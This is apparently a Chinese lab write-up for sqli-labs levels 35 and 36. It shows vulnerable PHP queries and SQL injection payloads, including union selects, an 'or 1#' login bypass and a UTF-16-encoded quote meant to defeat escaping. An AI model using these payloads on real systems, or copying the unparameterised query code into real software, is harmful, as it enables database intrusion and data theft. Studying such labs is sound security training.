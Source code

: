 ## less-35

```php
$id=check_addslashes($_GET['id']);
//echo "The filtered request is :" .$id . "<br>";
// connectivity 
mysql_query("SET NAMES gbk");
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
$result=mysql_query($sql);
```

数字型，直接注入

```
-1+union+select+1,2,3--+
```

## less-36 mysql_real_escape_string

```php
function check_quotes($string)
{
    $string= mysql_real_escape_string($string);    
    return $string;
}

// take the variables 
if(isset($_GET['id']))
{
$id=check_quotes($_GET['id']);

// connectivity 
mysql_query("SET NAMES gbk");
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
```

MySQL 注入天书这里介绍了一个新的方法

将 utf-8 转换为 utf-16 或 utf-32，例如将 `'` 转为 utf-16 为`�`

我们就 可以利用这个方式进行尝试，可以使用 Linux 自带的 iconv 命令进行 UTF 的编码转换：

```shell
➜  ~ echo \'|iconv -f utf-8 -t utf-16
��'
➜  ~ echo \'|iconv -f utf-8 -t utf-32
��'
```

payload

```
�' or 1#
万能密码
�'+union+select+1,user(),3--+
```
